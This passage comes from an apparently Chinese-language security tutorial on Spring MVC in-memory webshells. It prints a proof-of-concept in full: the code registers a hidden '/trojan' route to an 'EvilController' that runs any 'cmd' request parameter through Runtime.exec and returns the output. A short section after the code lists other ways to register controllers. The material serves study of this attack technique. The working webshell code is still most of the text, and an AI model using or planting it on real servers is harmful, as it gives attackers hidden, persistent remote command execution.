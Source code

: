             // 2. 创建 RequestMappingInfo
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context == null) {
                return "inject fail!";
            }
            RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
    
            RequestMappingInfo.Builder builder = RequestMappingInfo.paths("/trojan").methods(RequestMethod.GET);
            RequestMappingInfo requestMappingInfo = builder.options(new RequestMappingInfo.BuilderConfiguration()).build();
    
            // 3. 完成注册和路由映射
            Method cmdMethod = evilController.getClass().getMethods()[0];
            requestMappingHandlerMapping.registerMapping(requestMappingInfo, evilController, cmdMethod);
            return "inject done!";
        }
    
        /**
         * 恶意 Controller，没有注册路由
         */
        @Controller
        public class EvilController{
            @ResponseBody
            public String cmd(@RequestParam("cmd") String cmd) throws Exception {
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream, "GB2312"));
                String line;
                StringBuilder result = new StringBuilder();
                while ((line = bufferedReader.readLine()) != null) {
                    result.append(line).append("\n");
                }
                bufferedReader.close();
                inputStream.close();
                System.out.println(result.toString());
                return result.toString().replaceAll("\n", "<\\br>");
            }
        }
    }
    ```

### 2.6 其他注册 Controller 的方式

1. 注册的方式参考：

    > https://landgrey.me/blog/12/

    该师傅给出了 3 个官方提供的方法。其中第一个方法就是上文 PoC 所使用的，通过 `RequestMappingHandlerMapping#registerMapping()`。

2. 上文 [2.3](#2.3 `RequestMappingInfo` 的创建 -- 以完成路由映射) 的流程分析中，曾分析过 `AbstractHandlerMethodMapping#detectHandlerMethods()`，这个方法其实在映射路由的同时也完成了 Controller 的注册，因此也可以通过反射来调用该方法。

